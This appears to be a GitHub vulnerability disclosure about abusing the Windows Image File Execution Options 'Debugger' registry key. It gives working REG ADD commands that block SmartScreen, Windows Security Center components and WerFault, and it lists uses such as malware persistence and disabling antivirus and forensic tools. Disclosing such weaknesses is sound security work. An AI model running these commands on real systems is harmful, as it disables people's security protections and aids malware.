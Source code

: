 # Block Smartscreen and Security Center for Windows
&emsp; On the evening of May 29 (2022), I made the necessary notifications to the "Microsoft Security Center" [ VULN-068278].
However, according to the reply received by e-mail on June 10, "We determined that an immediate fix will not be released for the reported behavior. It was recommended to hardened because the relevant vulnerability requires **Administrator authority**. We have closed this case" .
For this reason, I wanted to warn users by posting this vulnerability or weakness in my account on Github.


&emsp; If any executable file is added to ("HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\") the regedit path and a debugger flag is set, another program can be run before that program is run. 
If the program that is run first does not invoke the relevant program in any way, it can replace the relevant program.
This can prevent various important programs from running. 
This is valid for important processes of Windows.


&emsp; For example, if you want to block Smartscreen
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\smartscreen.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
```


&emsp; For example, if you want to block Security Center (Windows Defender and other tools)
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\securityhealthhost.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\secHealthUI.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\werFault.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
```

<dl>
  <dt> The purposes of using this vulnerability can basically be listed as follows.
  <dd>
  <dd> 1) It can provide persistence for malware software.
  <dd> 2) Although it is different in function and structure, similar attacks that can be made by interfering with the system call table can also be made using this vulnerability.
  <dd> 3) Security measures such as Smartscreen, Windows Defender, etc. that come integrated with Windows can be blocked.
For example, although Windows Defender cannot be blocked directly, Windows Defender is prevented from running by preventing the components necessary for it to work.
In the example, Windows Security Center has been prevented from working, and related components have become inoperable.
  <dd> 4) In particular, third-party virus scanning and security software can be blocked.
Also, any other third-party software may be blocked from running.
  <dd> 5) Processes used for forensic purposes that are integrated with Windows can be blocked.
  <dd> 6) By blocking the components necessary for the operation of Windows, operations such as "sending error reports" and "receiving updates" can be rendered inoperable.
For example, by blocking the "calcs" command, access to certain folders and files can be prevented by preventing the user and Windows from accessing the access control list.
</dl>


Video and Screenshots of the Vulnerability
---
&emsp; A simple video has been posted on Youtube to demonstrate the vulnerability. 
It can be viewed at the link below.

&emsp; **[Youtube Link]** https://youtu.be/_rQrLeDaFSU


**[ScreenShot 1]**
![e3](https://user-images.githubusercontent.com/71177413/173035204-a42ff30d-6dd0-4dde-8c53-10384db37ed2.JPG)


**[ScreenShot 2]**
![e4](https://user-images.githubusercontent.com/71177413/173035010-04fef1aa-7eac-4891-8541-5bcd57d70390.png)


**[ScreenShot 3]**
![e6](https://user-images.githubusercontent.com/71177413/173035082-fd6e2075-7c98-4786-a50a-d35db152027a.png)


Exploiting the Vulnerability
---
&emsp; As an example, a script has been written to show how a malware can exploit this vulnerability.
The **"block.py"** script has been added to the files as an example in order to represent what we call the first stage in malware attacks





Additional information on malwares
---
&emsp; In order to evaluate the vulnerability, basic information about malware-type attacks is given.

**A) Ideal Malware Attacks**
&emsp;

![malware_1](https://user-images.githubusercontent.com/71177413/173053242-7229231b-fad8-4716-90ee-d8572d5c74a6.JPG)
[jpg source: From the training notes, Abdulkadir GÜNGÖR]

**B) Types of Malware**
&emsp;

![malware_2_type](https://user-images.githubusercontent.com/71177413/173053253-a976a2ed-72cf-4579-b97f-0bb6d09a4093.png)
[jpg source: From the book "Linux İşletim Sisteminde Malware Analizi", Abdulkadir GÜNGÖR, ISBN:978-625-409-378-4]


**C) Final Stage**
&emsp;

![malware_3](https://user-images.githubusercontent.com/71177413/173053274-478c0e9f-67d0-4b93-b842-061c611fbde2.JPG)
[jpg source: From the training notes, Abdulkadir GÜNGÖR]


Disclaimer
---
&emsp; Information and projects published by me on Github are entirely at the user's own risk.
I'm not responsible in any way for any kind of damage that is done to your computer / os / program as cause of this project.
Make sure to use virtual systems as a test environment!


Legal Warning
---
&emsp; Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.
